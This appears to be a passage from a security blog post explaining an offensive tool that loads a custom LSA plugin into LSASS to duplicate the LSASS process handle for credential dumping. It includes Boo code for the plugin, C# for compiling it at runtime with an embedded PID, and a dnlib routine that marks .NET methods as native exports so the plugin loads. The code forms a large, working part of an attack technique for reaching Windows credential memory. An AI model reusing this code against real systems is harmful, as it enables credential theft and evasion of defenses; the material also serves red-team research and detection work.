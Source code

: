 ```python
def SpLsaModeInitialize(LsaVersion as int, PackageVersion as IntPtr, ppTables as IntPtr, pcTables as IntPtr) as int:	

	Marshal.WriteInt32(PackageVersion, 1);
	Marshal.WriteInt32(pcTables, 0);
	Marshal.WriteIntPtr(ppTables, IntPtr.Zero)
	
	handle = OpenProcess(0x40, true, {0})
	targetHandle = IntPtr.Zero
	DuplicateHandle(GetCurrentProcess(),GetCurrentProcess(), handle, targetHandle, 0x1F0FFF, false, 1)
	CloseHandle(handle)

	return 0
```

As you can see from the Boo code above, the LSA plugin is very simple.  It has one function called `SpLsaModeInitialize` and a few imports from kernel32 that facilitate the duplication of the LSASS handle.  The `OpenProcess` API call that you can see is opening a handle to the dumping process that we will be duplicating the lsass handle into.  You will also notice that the third parameter is in the form of a .NET format string argument and not a PID.  This is due to the fact that we are generating our .NET assembly on the fly and the PID argument is embedded at runtime like below;

```c#
string script = string.Format(GetResourceFileAsString("MiniDumpToMemSharp.Lsa.LsaProviderDuper.boo"), Process.GetCurrentProcess().Id);
AssemblyBuilder assembly = (AssemblyBuilder)CompileBooAssembly(script, referenceAssemblies, dllName, true); 
```

One other thing to note is the `[DllExport]` attribute attached to the `SpLsaModeInitialize` function.  The LSA subsystem expects an LSA plugin to expose this function to be eligible for loading.  Believe it or not, .NET DLL’s can also export functions and be called from native code too, exactly like the DllImport functionality but in reverse.  Adam Chester done a great post on this back in 2018 called [RunDLL32 your .NET (AKA DLL exports from .NET)](https://blog.xpnsec.com/rundll32-your-dotnet).

But this functionality is not natively supported by the DLR compiler directly.  As Adam mentioned in his blog post, there is the [DllExport](https://github.com/3F/DllExport) project by Denis Kuzmin that has support for this, but unfortunately because we are generating our LSA DLL on the fly, it was not possible to use this.  I needed to find a way to do this with DLR assemblies.

Enter dnlib.  dnlib is a library that facilitates reading and modifying .NET modules and assemblies.  One of it’s capabilities is marking methods within the assembly as exported.  Using dnlib, we search the recently compiled LSA plugin assembly from our boo script for functions that are tagged with the DllExport attribute.  Once found, the function is marked as exportable.

```c#
//Little trick here that uses dnlib to search for all functions within our generated
//assembly that has the DllExport attribute.  We then mark that function as a native export
//and remove the attribute so that we don't have a dependency on the main exe that defines the DllExport attribute
foreach (var type in module.GetTypes()) {
    foreach (var method in type.Methods) {
        var toRemove = new List<CustomAttribute>();
        foreach (var attrib in method.CustomAttributes) {
            if (attrib.TypeFullName == typeof(DllExportAttribute).FullName) {
                method.ExportInfo = new MethodExportInfo();
                var retType = method.MethodSig.RetType;
                method.MethodSig.RetType = new CModOptSig(module.CorLibTypes.GetTypeRef("System.Runtime.CompilerServices", "CallConvStdCall"), retType);
                toRemove.Add(attrib);
            }
        }
        toRemove.ForEach(remove => method.CustomAttributes.Remove(remove));
    }
```